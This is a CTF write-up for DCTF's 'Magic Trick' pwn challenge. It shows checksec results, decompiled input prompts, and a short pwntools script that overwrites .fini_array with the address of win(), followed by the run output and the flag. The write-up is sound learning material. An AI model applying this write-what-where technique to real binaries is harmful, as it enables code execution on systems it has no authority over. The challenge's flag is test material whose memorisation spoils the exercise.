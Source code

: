 ## Magic Trick (300 Points)

### Problem
```
How about a magic trick?
nc dctf-chall-magic-trick.westeurope.azurecontainer.io 7481

File: magic_trick
```

### Solution
Let me start by saying, I think I solved this chall by blind luck of stumbling on a writeup for a similar style Pwn challenge.

Anyway, firstly, I ran `checksec` to see what I was dealing with.

```
❯ pwn checksec magic_trick
[*] '~/ctf/dctf/magic_trick'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

I opened the binary in Ghidra and inspected the important functions - `main()`, `magic()`, and `win()`.

We need to get from `magic()` to `win()` without any overflows this time.

We're prompted twice for input - something to write, and a place to write it. I'm not really sure where to go with this so I do some searching of old CTF writeups to see if I can see anything similar.

```c
puts("What do you want to write");
__isoc99_scanf(&DAT_00400823,&local_28);
puts("Where do you want to write it");
__isoc99_scanf(&DAT_00400823,&local_20);
```

I came across [this writeup](https://github.com/guyinatuxedo/ctf/tree/master/tokyowesterns16/pwn/greeting) where the author is prompted for input and there's a bunch of pointers with no way to overflow. The author mentions that as the binary is not RELRO enabled, they can write to the GOT Table and as PIE isn't enabled, they can see the addresses of the GOT table. We're in the same scenario!

The author eventually goes on to mention that as a buffer overflow isn't possible due to `__stack_chk_fail()`, they can instead write to `.fini_array`.

So, with that, I went and got the address of `.fini_array` in Ghidra (`0x00600a00`), and then I went and got the address of `win()` in Ghidra(`0x00400667`).

The program asks us what we write, and where we want to write it - it kind of makes sense to me to write the `win()` address to the `.fini_array` address.
Let's write some Python to do that for us...

```python
from pwn import *

host = remote('dctf-chall-magic-trick.westeurope.azurecontainer.io', 7481)

win_addr = str(0x00400667)
fini_addr = str(0x00600a00)

host.recv()
host.sendline(win_addr)
host.recv()
host.sendline(fini_addr)

host.interactive()
```

```
❯ python3 exploit.py
[+] Opening connection to dctf-chall-magic-trick.westeurope.azurecontainer.io on port 7481: Done
[*] Switching to interactive mode
thanks
You are a real magician
dctf{1_L1k3_M4G1c}
[*] Got EOF while reading in interactive
$
```

On one hand I'm glad I got the flag here, but I don't fully understand **why** this was the right thing to do. It's something I'll build on in the next few CTFs, I'm sure.

Flag: `dctf{1_L1k3_M4G1c}`
